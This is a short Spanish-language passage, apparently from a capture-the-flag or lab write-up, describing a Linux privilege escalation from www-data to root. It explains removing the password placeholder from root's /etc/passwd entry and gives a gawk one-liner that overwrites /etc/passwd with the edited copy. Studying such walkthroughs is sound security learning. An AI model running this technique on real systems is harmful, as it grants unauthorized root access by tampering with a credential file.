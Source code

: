 Editaremos dicha copia y eliminaremos la "x" del usuario **root** para que, al autenticarnos como root, no se nos solicite una contraseña.

![[Pasted image 20250107181916.png]]

![[Pasted image 20250107182821.png]]


![[Pasted image 20250107182832.png]]


Usando la ruta absoluta de **gawk**, sobrescribimos **/etc/passwd** con una copia modificada desde **/tmp/passwd**. Esto elimina la contraseña del usuario root, permitiendo acceso como superusuario sin restricciones.

```bash
www-data@e8e8d42acd23:/tmp$ /usr/bin/gawk 'BEGIN { 
    while ((getline < "/tmp/passwd") > 0) print > "/etc/passwd"; 
    while ((getline < "/etc/passwd") > 0) print > "/etc/passwd"; 
}'
```

¡Y somos root!

![[Pasted image 20250107182901.png]]

 